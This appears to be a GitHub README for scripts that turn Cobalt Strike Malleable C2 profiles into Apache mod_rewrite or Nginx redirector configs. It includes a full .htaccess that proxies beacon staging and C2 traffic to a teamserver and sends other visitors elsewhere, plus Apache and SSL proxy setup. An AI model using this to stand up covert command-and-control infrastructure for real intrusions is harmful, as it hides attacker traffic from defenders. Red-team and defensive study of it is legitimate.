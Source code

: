 # Automatically Generate Rulesets for Apache mod_rewrite or Nginx for Intelligent HTTP C2 Redirection

This project converts a Cobalt Strike profile to a functional mod_rewrite .htaccess or Nginx config file to support HTTP proxy redirection to a CobaltStrike teamserver.

You should test and tune the output as needed before depolying, but these scripts should handle the heavy lifting.

## Updates and Features

 - Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string. Result: Only requests to valid C2 URIs with a specified UA string will be proxied to the Team Server by default.
 - Uses a custom Malleable C2 profile to build a .htaccess file with corresponding mod_rewrite rules
 - Uses a custom Malleable C2 profile to build a Nginx config with corresponding proxy_pass rules
 - Supports the Cobalt Strike custom URI features as of CS 3.10
 - HTTP or HTTPS proxying to the Cobalt Strike Team Server
 - HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick start

The havex.profile example is included for a quick test.

1) Run the script against a profile
2) Save the output to .htaccess
3) Modify as needed
4) Use the script with your redirector

## Apache mod_rewrite Example

    python cs2modrewrite.py -i havex.profile -c https://TEAMSERVER -r https://GOHERE
    #### Save the following as .htaccess in the root web directory
    
    ########################################
    ## .htaccess START 
    RewriteEngine On

    ## (Optional)
    ## Scripted Web Delivery 
    ## Uncomment and adjust as needed
    #RewriteCond %{REQUEST_URI} ^/css/style1.css?$
    #RewriteCond %{HTTP_USER_AGENT} ^$
    #RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## Default Beacon Staging Support (/1234)
    RewriteCond %{REQUEST_URI} ^/..../?$
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
    ## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
    ## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
    ## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
    ## Profile URIs
    RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
    ## Profile UserAgent
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## Redirect all other traffic here (Optional)
    RewriteRule ^.*$ HTTPS://GOHERE/ [L,R=302]

    ## .htaccess END
    ########################################

## Nginx Example

    python ./cs2nginx.py -i havex.profile -c https://127.0.0.1 -r https://www.google.com -H mydomain.local
    
    python ./cs2nginx.py -h
    usage: cs2nginx.py [-h] [-i INPUTFILE] [-c C2SERVER] [-r REDIRECT]
                    [-H HOSTNAME]

    Converts Cobalt Strike profiles to Nginx proxy_pass format by using URI
    endpoints to create regex matching rules. Make sure the profile passes a
    c2lint check before running this script.

    optional arguments:
    -h, --help      show this help message and exit
    -i INPUTFILE    C2 Profile file
    -c C2SERVER     C2 Server (http://teamserver_ip or
                    https://teamserver_domain)
    -r REDIRECT     Redirect bad requests to this URL (http://google.com)
    -H HOSTNAME     Hostname for Nginx redirector


----------------------------------------------
## Nginx Setup

`apt-get install nginx nginx-extras`

*Note:* `nginx-extras` is needed for custom server headers. If you can't get this package, then comment out the server header line in the resulting configuration file.
 
## Apache Rewrite Setup and Tips

### Enable Rewrite and Proxy

    a2enmod rewrite headers proxy proxy_http ssl cache
    a2dismod -f deflate
    service apache2 reload

Note: https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
"e0x70i pointed out in the comments below that if your Cobalt Strike Malleable C2 profile contains an Accept-Encoding header for gzip, your Apache install may compress that traffic by default and cause your Beacon to be unresponsive or function incorrectly. To overcome this, disable mod_deflate (via a2dismod deflate and add the No Encode ([NE]) flag to your rewrite rules. (Thank you, e0x70i!)"

### SL support requires the following in the site config

    # Enable SSL
    SSLEngine On
    # Enable Proxy
    SSLProxyEngine On
    # Trust Self-Signed Certificates generate by CobaltStrike
    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off

### HTACCESS
If you plan on using mod_rewrite in .htaccess files, you also need to enable the use of .htaccess files by changing `AllowOverride None` to `AllowOverride All`. For the default website, edit /etc/apache2/sites-available/default

    <Directory /var/www/>
            Options Indexes FollowSymLinks MultiViews
            AllowOverride All
            Order allow,deny
            allow from all
    </Directory>

## References

[cs2modrewrite.py blog post](https://posts.specterops.io/automating-apache-mod-rewrite-and-cobalt-strike-malleable-c2-profiles-d45266ca642)

[Apache mod_rewrite](http://httpd.apache.org/docs/current/mod/mod_rewrite.html)

[Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/)

[Resilient Red Team HTTPS Redirection Using Nginx - Adam Brown](https://coffeegist.com/security/resilient-red-team-https-redirection-using-nginx/)
